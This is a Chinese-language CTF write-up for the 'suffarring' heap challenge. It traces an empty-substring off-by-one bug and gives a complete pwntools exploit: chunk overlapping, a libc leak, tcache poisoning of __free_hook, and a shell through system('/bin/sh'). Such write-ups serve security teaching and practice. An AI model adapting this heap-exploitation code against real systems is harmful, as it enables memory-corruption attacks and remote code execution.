


题目是个菜单题，有些代码的不是很重要，比如 "J" 分支和 "N" 分支  
  
那么经过一些逆向之后会发现，其实这个程序写了个在字符串中查找子串的功能  
比如：原始字符串：bababa 查找字符串: ba  
在 "D" 分支也就是 count() 函数中,那么会查找出出现了3次  
在 "S" 分支也就是 recant_needles() 函数中，会将所有出现 ba 的子串打印下来，用 "\n" 拼接  
比如上面那个例子，会有结果:  
bababa\nbaba\nba\n  
因为是通过 malloc 去存储这个字符串，相应的需要计算字符串的个数  
关于计算个数的算法其实逆的不是很清楚，不过也不重要，因为我测试了很多组数据发现确实是对的  
算法的基本思路是写了个类似于快速排序的东西，然后通过两个数组计算出对应子串的个数，这个算法看逆向并不是能看的很懂  
知道是对的后就很绝望了  
  
因为上面这个函数就是刚才说的存储函数，如果字符数算的是对的，那么就没有溢出，就没有洞  
然后又回溯去看了很多边界点，发现都没有问题，比如 index，uaf 等一些常见的问题  
最后确定就是这个函数出了问题，所以需要自己假设很多数据，比如：  
- 子串长度大于原字符串长度的时候  
- 子串和原字符串能为空吗  
第一个思路本来以为是可行的，因为 i 是一个 unsighed int，所以一个负数，会循环很久，但是测试发现根本用不了  
在第二思路中，我发现子串确实能为空，那么能为空能利用吗  
通过分析发现，在上一个循环中如果子串是空串，那么会一直走到 `j == add_needle->size` 里面的分支，所以会执行两次 memcpy，但是因为是空串，所以相当于是每个串的子串  
比如:bbb，那么其结果为  
`bbb\nbb\nb\n`  
一开始我也以为是这个结果，但是经过调试，我发现了一些 bug  
正确地结果为 `bbb\nbb\nb\n\n`  
也就是会多一个 `\n`  
我发现是因为 i 多走了一次，所以多进入了一次 `j == add_needle->size` 里面的分支，虽然第一个 memcpy 的长度为 0 (rdx)，但是第二个 memcpy 会拷贝一个字节，也就是一个 off by one ，但是这个 one 是固定的 0xa (`\n`)  
那么这个能不能利用，一开始我以为是不能利用的，后来晚上仔细一想， 0xa = 0b1010，实际上可以当做一个低配版的 off by null ，`is_mmaped` 不影响正常操作  
那么就有了一个 off by null 的洞了  
基本思路:  
- 通过 off by null 基本策略构造 chunk overlapping  
首先需要一个脚本跑出什么长度的原字符串能够获得类似 0x68 这种大小的 chunk:  

```python
res = 0
for i in range(1,200):
    res += i+1
    if res % 8 == 0 and res & 8 != 0:
        print hex(i),":",hex(res)
```  
结果为：

```python
0xd : 0x68
0x10 : 0x98
0x2d : 0x438
0x30 : 0x4c8
0x4d : 0xc08
0x50 : 0xcf8
0x6d : 0x17d8
0x70 : 0x1928
0x8d : 0x27a8
0x90 : 0x2958
0xad : 0x3b78
0xb0 : 0x3d88
```  
然后就是基本的 off by null 了，注意这里还需要解决一些 bypass tache bin 的问题，所以调试会很麻烦，payload:  

```python
from pwn import *
import sys

if len(sys.argv) < 2:
    debug = True
else:
    debug = False

if debug:
    p = process("./suffarring")
    libc = ELF("/lib/x86_64-linux-gnu/libc-2.27.so")
    elf = ELF("./suffarring")
else:
    p = remote("suffarring.pwni.ng","7361")
    libc = ELF("./libc.so.6")
    elf = ELF("./suffarring")

def menu(choice):
    p.sendlineafter("\n> ",choice)

def add(data):
    menu("A")
    p.sendlineafter("Length?\n",str(len(data)))
    p.sendafter("Data?\n> ",data)

def count(index,data):
    menu("C")
    p.sendlineafter("Which text?\n",str(index))
    p.sendlineafter("Length?\n",str(len(data)))
    p.sendafter("Data?\n> ",data)

def free(index):
    menu("D")
    p.sendlineafter("Which text?\n",str(index))

def read_int(info):
    menu("I")
    p.recvuntil("> ")
    p.sendlineafter("> ",str(info))

def show_all():
    menu("M")

def show_index(index):
    menu("P")
    p.sendlineafter("Which text?\n",str(index))

def recant(index,data):
    menu("R")
    p.sendlineafter("Which text?\n",str(index))
    p.sendlineafter("Length?\n",str(len(data)))
    p.sendafter("Data?\n> ",data)

code_base = 0x555555554000
def debugf():
    #gdb.attach(p,"b *{b1}".format(b1 = hex(code_base + 0xB1D)))
    #gdb.attach(p,"b *{b1}\nb *{b2}".format(b1 = hex(code_base + 0xB1D),b2 = hex(code_base + 0x1708)))
    gdb.attach(p,"b *{b1}\nb *{b2}".format(b1 = hex(code_base + 0xB1D),b2 = hex(code_base + 0x12c9)))

context.log_level = "debug"
context.terminal = ["tmux","splitw","-h"]
"""
0xd : 0x68
0x10 : 0x98
0x2d : 0x438
0x30 : 0x4c8
0x4d : 0xc08
0x50 : 0xcf8
0x6d : 0x17d8
0x70 : 0x1928
0x8d : 0x27a8
0x90 : 0x2958
0xad : 0x3b78
0xb0 : 0x3d88
"""
size = 0xa0
size = 0xa0 - 0x10
add("b"*(size/8))
add("b"*(size/8))
add("b"*(size/8))
add("b"*(size/8))
free(0)
free(1)
free(2)
free(3)
#debugf()
add("a"*(size)) #0 
add("b"*(size)) #1
add("c"*0xd) #2
free(0)
#debugf()
size1 = 0xdb0
payload = "\x00" * (size1 - 0x50) + p64(0xd08) + p64(0xd08) + p64(0) + p64(0x41)
add(payload) #0
free(0)
recant(2,"")
size2 = 0xd00
size3 = 0x500
size4 = 0x100
add("a"*(size2 - size3 - size4 - 0x10)) #0
add("a"*(size3 - 0x10)) #3
add("a"*(size4 - 0x10)) #4
free(0)
free(1)
#debugf()
size_last = 0x1af0
payload = ""
payload = payload.ljust(size2 - size3 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size3 + 1)
payload = payload.ljust(size2 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size4 + 1)
payload = payload.ljust(size2 - 0x10,"\x00")
payload += p64(0) + p64(0x11) + p64(0) + p64(0x11)
add(payload) #0
free(3)
show_index(0)
p.recvuntil(p64(size3 + 1))
leak_addr = u64(p.recv(8))
libc.address = leak_addr - 96 - 0x10 - libc.symbols["__malloc_hook"]
log.success("libc_base:" + hex(libc.address))
free(4)
add("a"*(size3 - 0x10)) #1
free(0)
target = libc.symbols["__free_hook"] - 0x8
payload = ""
payload = payload.ljust(size2 - size3 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size3 + 1)
payload = payload.ljust(size2 - size4 - 0x10,"\x00")
payload += p64(0) + p64(size4 + 1)
payload += p64(target)
payload = payload.ljust(size2 - 0x10,"\x00")
payload += p64(0) + p64(0x11) + p64(0) + p64(0x11)
add(payload) #0
#debugf()
payload = "/bin/sh\x00" + p64(libc.symbols["system"])
payload = payload.ljust(size4 - 0x10,"\x00")
add(payload) #3
add(payload) #4
free(4)
p.interactive()
```
